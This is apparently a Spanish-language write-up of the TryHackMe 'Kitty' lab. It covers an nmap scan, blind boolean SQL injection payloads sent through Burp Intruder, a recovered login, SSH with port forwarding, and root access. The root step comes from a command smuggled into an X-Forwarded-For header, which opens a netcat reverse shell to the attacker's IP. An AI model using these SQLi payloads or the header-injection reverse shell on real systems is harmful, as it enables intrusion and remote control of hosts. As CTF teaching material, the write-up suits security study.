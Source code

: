 ```yaml
---
title: "Kitty  Writeup - Try-Hack-Me"
date: 2024-02-05
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Medium]
image: 
  path: assets/img/imagenes/Kitty.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Kitty banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![img](/assets/img/imagenes/Pasted image 20240204210908.png)

![img](/assets/img/imagenes/Pasted image 20240204211038.png)
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![img](/assets/img/imagenes/Pasted image 20240204213231.png)

![img](/assets/img/imagenes/Pasted image 20240204213305.png)

### Fuzzing con gobuster

![img](/assets/img/imagenes/Pasted image 20240204213332.png)
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli usando Burpsuite

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![img](/assets/img/imagenes/Pasted image 20240204220002.png)

intruder
![img](/assets/img/imagenes/Pasted image 20240204220113.png)

configuramos el payloads
![img](/assets/img/imagenes/Pasted image 20240204220220.png)
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![img](/assets/img/imagenes/Pasted image 20240204222627.png)

para el tercer posición obtenemos la letra "w"
![img](/assets/img/imagenes/Pasted image 20240204223225.png)
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

usaremos este parametro para obtener informacion sobre las tablas

```python
	username=kitty'+and+substring((select+table_name+from+information_schema.tables+where+table_schema="mywebsite"+limit+0,1),1,1)="a"+#&password=kitty
```

el primer resultado nos da la letra "s"
![img](/assets/img/imagenes/Pasted image 20240204235500.png)

ejecutamos el ataque cambiando la posición, en este caso nos da la letra "i"
![img](/assets/img/imagenes/Pasted image 20240205000151.png)
tenemos que hacer esto hasta sacar el nombre de la tabla

```python
	username=kitty'+AND+SUBSTRING((SELECT+username+from+siteusers+LIMIT+0,1),1,1)="a"+#&password=kitty
```

sacamos carácter de la posición 4 "g"  
![img](/assets/img/imagenes/Pasted image 20240205001529.png)
hacemos esto desde la posición 1 hasta conseguir todos los caracteres

<!---------------------------------------------------------------------------------------------------------------------------------------------------------------
```python
	username: kitty
	password: L0ng_Liv3_kittY
```
---------------------------------------------------------------------------------------------------------------------------------------------------------------->
### ssh

![img](/assets/img/imagenes/Pasted image 20240205003102.png)

### Escalada de Privilegios

![img](/assets/img/imagenes/Pasted image 20240205004914.png)
parece que este script hace un guardado en logged de los intentos de sqli que se hacen en el panel de login de parte del desarrolador

conexion por ssh haciendo un port forwarding  
![img](/assets/img/imagenes/Pasted image 20240205005339.png)

### localhost:8080

![img](/assets/img/imagenes/Pasted image 20240205005619.png)
tenemos conexión por el puerto 8080 en el que vemos la web de parte del desarrollador

### Burpsuite
usamos la inyeccion sqli para que esta informacion se guarde en el archivo logged y agregamos la linea

```python
	X-Forwarded-For: $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.157.7 7890 >/tmp/f)
```

![img](/assets/img/imagenes/Pasted image 20240205011158.png)
esperamos un rato a que se haga el guardado.

### WE ARE ROOT

![img](/assets/img/imagenes/Pasted image 20240205012010.png)
